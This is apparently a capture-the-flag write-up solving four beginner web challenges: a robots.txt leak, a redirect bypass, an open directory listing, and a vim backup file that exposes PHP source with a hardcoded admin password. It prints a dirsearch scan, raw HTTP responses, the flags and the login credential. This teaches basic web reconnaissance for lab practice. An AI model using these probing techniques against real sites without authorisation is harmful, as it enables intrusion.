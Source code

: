 # Beginner-Web Challenges

### Robots

https://web2.chujowyc.tf/

Go to https://web2.chujowyc.tf/robots.txt and you will see the following:

```
User-agent: *
Disallow: index.php
Disallow: CQy2Z1k3J7ku7uhQ8uNTagIeLvYg1noA2f4v
```

Your flag is located at https://web2.chujowyc.tf/CQy2Z1k3J7ku7uhQ8uNTagIeLvYg1noA2f4v

> chCTF{r08075_7X7_l33k5_A_l07_0f_1nf0rmA710N}

### The Return of Insanity1

https://web4.chujowyc.tf/

When you go here you notice the link takes you to https://web4.chujowyc.tf/flag.php but you are immediately redirected to https://web4.chujowyc.tf/construct.php. What happens if you get _just_ flag.php?

```html
cj [master●●] % http https://web4.chujowyc.tf/flag.php
HTTP/1.1 302 Found
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Thu, 16 Jul 2020 03:49:25 GMT
Location: /construct.php
Server: openresty/1.15.8.2
Strict-Transport-Security: max-age=15724800
Transfer-Encoding: chunked

<html>
    <body>
        chCTF{4nd_Y0U_7H0u9H7_1n54N17y1_w45_4_U53l355_745k}    </body>
</html>
```

> chCTF{4nd_Y0U_7H0u9H7_1n54N17y1_w45_4_U53l355_745k}

### Deployment

https://web1.chujowyc.tf/

View page source:

```html
<html>
    <body>
        <h1> Look at this cute furry OwO </h1>
        <img src="/files/furry.jpg">
    </body>
</html>
```

Go to the base of the `files` directory: https://web1.chujowyc.tf/files/. Your flag is here: view-source:https://web1.chujowyc.tf/files/flag

> chCTF{4U7o1Nd3x_15_b444d}

### Vim

The challenge has a tag indicating that this is a PHP related challenge. Lets find PHP files then:

```
cj [master●●] % dirsearch -u https://web3.chujowyc.tf/ -e html,php,js,css,txt &> dirout.txt
cj [master●●] % cat dirout.txt| grep 200
[21:00:22] 403 -  548B  - /admin/.config
[21:00:35] 403 -  548B  - /administrator/.htaccess
[21:01:29] 200 -  612B  - /index.html
[21:01:30] 200 -  342B  - /index.php
[21:01:30] 200 -  803B  - /index.php~
```

https://web3.chujowyc.tf/index.php~

```
<html>
    <body>
        <h1> This site was created using vim on production! </h1>

        <?php
        include("flag.php");
        if ($_SERVER['REQUEST_METHOD'] === 'POST') {
            if ($_POST["name"] == "admin" && $_POST["password"] == "PE1qhr81JP/9YYkci/JVs7y2ShnlVZtGSN6qDxvUSQiB7WRo6qPtcm6gb5gzQ65JaI62i0x474ri") {
                echo($flag);
            } else {
                echo("Try harder :P");
            }
        } else if ($_SERVER['REQUEST_METHOD'] === 'GET') {

            echo("
             <form action=\"/\" method=\"post\">
            Username: <input type=\"text\" name=\"name\"><br>
            Password: <input type=\"text\" name=\"password\" password><br>
            <input type=\"submit\">
            </form>");
            }
        ?>

    </body>
</html>

```

Login using the following:

username: admin
password: PE1qhr81JP/9YYkci/JVs7y2ShnlVZtGSN6qDxvUSQiB7WRo6qPtcm6gb5gzQ65JaI62i0x474ri

> chCTF{D0Nt_d3V3l0p_0n_4_Pr0duCtI0N_s3RV3r}    